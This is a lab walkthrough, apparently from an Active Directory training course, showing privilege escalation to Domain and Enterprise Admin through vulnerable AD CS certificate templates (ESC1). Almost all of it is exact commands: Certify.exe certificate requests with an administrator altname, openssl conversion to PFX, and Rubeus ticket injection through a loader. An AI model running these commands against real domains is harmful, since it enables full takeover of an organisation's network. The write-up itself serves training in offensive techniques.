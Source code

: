 # 🪜 Find vulnerable templates w/ AD CS  to escalate to DA and EA

We can start by using the Certify tool to check for AD CS in moneycorp ->

```
C:\AD\Tools\Certify.exe cas
```

<figure><img src="../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

We can list all the templates using the following command. Going through the output we can find some interesting templates:

```
C:\AD\Tools\Certify.exe find
```

<figure><img src="../../.gitbook/assets/image (1162).png" alt=""><figcaption></figcaption></figure>

```
[snip]
CA Name : mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA
 Template Name : SmartCardEnrollment-Agent    
 Schema Version : 2
 Validity Period : 10 years
 Renewal Period : 6 weeks
 msPKI-Certificates-Name-Flag : SUBJECT_ALT_REQUIRE_UPN,
SUBJECT_REQUIRE_DIRECTORY_PATH
 mspki-enrollment-flag : AUTO_ENROLLMENT
 Authorized Signatures Required : 0
pkiextendedkeyusage : Certificate Request Agent     
 mspki-certificate-application-policy : Certificate Request Agent
 Permissions
 Enrollment Permissions
 Enrollment Rights : dcorp\Domain Users S-1-5-21-719815819-3726368948-3917688648-513    
[snip]
Template Name : HTTPSCertificates     
 Schema Version : 2
 Validity Period : 1 year
 Renewal Period : 6 weeks 
msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
[snip]
```

Now that we have the templates that we find interesting, we can try out for Privilege Escalation to DA and EA using ESC1

The template HTTPSCertificates looks interesting. Let's get some more information about it as it allows requestor to supply subject name:

<figure><img src="../../.gitbook/assets/image (1163).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1123</p></figcaption></figure>

```
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
```

what this means is that the HTTPSCertificates template grants enrollment rights to RDPUsers group and allows requestor to supply Subject Name. Recall that student613 is a member of RDPUsers group. This means that we can request certificate for any user as student613.

Now we can try to request a certificate for Domain Admin - Administrator:

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now let's Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to esc1.pem:

```
notepad C:\AD\Tools\esc1.pem
```

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

We need to convert it to PFX to use it. Use openssl binary on the student VM to do that. I will use SecretPass@123 as the export password ->

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx 
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's start by encoding "asktgt"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can check if we actually have DA privileges:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use similar method to escalate to Enterprise Admin privileges. Request a certificate for Enterprise Administrator - Administrator

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Save the certificate to esc1-EA.pem and convert it to PFX. I will use SecretPass@123 as the export password:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-EA.pfx   
```

Encode asktgt and run the follwing command ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1-EA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And check for EA privileges ->

```
winrs -r:mcorp-dc cmd /c  set username
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Need to go back on this process later on
{% endhint %}

Now let's try Privilege Escalation to DA and EA using ESC3
